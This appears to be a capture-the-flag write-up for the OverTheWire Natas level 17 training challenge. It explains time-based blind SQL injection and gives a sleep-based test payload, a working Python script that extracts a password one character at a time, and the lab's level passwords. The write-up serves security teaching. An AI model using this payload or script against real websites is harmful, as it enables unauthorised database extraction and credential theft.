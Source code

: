 # Natas CTF Solutions  

## Natas Level 17  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Use **Blind SQL Injection** through **time-based delays** to extract the password.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas17.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas17`  
- **Password:** Use the password from Natas Level 16:  
```
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```  
![Home_Page](https://github.com/user-attachments/assets/4cd10f40-71e0-48f0-862a-34aa0eab1712)

---

### **Step 3: Analyze the Webpage**  
- The page has an **input box** where you can search for a keyword.  
- Viewing the **page source** reveals that the input is processed via a SQL query.  
- Since no direct output is shown, this indicates it might be vulnerable to **Blind SQL Injection**.
  
![Page_Source](https://github.com/user-attachments/assets/37259528-6359-4e10-853f-a5991ee48cd4)

---

### **Step 4: Test for Time-Based Blind SQL Injection**  
Test with the following query:  
```sql
natas18" AND sleep(10) #
```
![Blind_Injection](https://github.com/user-attachments/assets/6a2be8ab-be1f-4a85-a578-6bf51c15ced1)

✅ If the page takes longer to load, it confirms that the query is processed directly by the database.  
✅ This is a classic **time-based blind SQL injection** vulnerability.  

---

### **Step 5: Automate the Attack**  
Use this Python script to automate the password extraction using time-based delays:  

```python
import requests
import string
from requests.auth import HTTPBasicAuth

basicAuth = HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

u = "http://natas17.natas.labs.overthewire.org/index.php?debug"

password = ""  # start with blank password
count = 1  # substr() length argument starts at 1
PASSWORD_LENGTH = 32  # previous passwords were 32 chars long
VALID_CHARS = string.digits + string.ascii_letters

while count <= PASSWORD_LENGTH:
    for c in VALID_CHARS:
        payload = "username=natas18" + \
                  "\" AND " + \
                  "IF(BINARY substring(password,1," + str(count) + ")" + \
                  " = '" + password + c + "', sleep(2), False)" + \
                  " -- "

        response = requests.post(u, data=payload, headers=headers, auth=basicAuth, verify=False)

        if response.elapsed.total_seconds() > 2:
            print(f"Found one more character: {password + c}")
            password += c
            count += 1
            break

print("Password found:", password)
```

✅ **How the script works:**  
1. Uses `IF(BINARY substring(...))` to test each character of the password.  
2. If the character matches, the server sleeps for **2 seconds**.  
3. If no match, the response is immediate.  
4. The script continues until the full password is found.  

---

### **Step 6: Explanation**  
✅ `BINARY substring()` ensures that the comparison is case-sensitive.  
✅ `sleep(2)` introduces a measurable delay, confirming a correct match.  
✅ The script measures the server's response time to determine character validity.  

---

### **Step 7: Retrieve the Password**  
After running the script, the password for **Natas Level 18** is revealed:  
![Password](https://github.com/user-attachments/assets/76f7f802-6617-42fc-ae31-1fa4f07772b6)

---

### **✅ Password for Natas Level 18**  
```
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```  

---

## 💡 **Lessons Learned**  
✔️ **Blind SQL Injection**: Even when no direct output is provided, timing-based tests can reveal information.  
✔️ **Binary Comparison**: Ensuring case sensitivity can be critical when handling passwords.  
✔️ **Automated Exploitation**: Automating SQL Injection with Python makes the process faster and more accurate.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Page Source Code | ![Page_Source](https://github.com/user-attachments/assets/37259528-6359-4e10-853f-a5991ee48cd4) |  
| Step 7 – Found Password | ![Password](https://github.com/user-attachments/assets/76f7f802-6617-42fc-ae31-1fa4f07772b6) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 18**:  
👉 [http://natas18.natas.labs.overthewire.org](http://natas18.natas.labs.overthewire.org)  

---
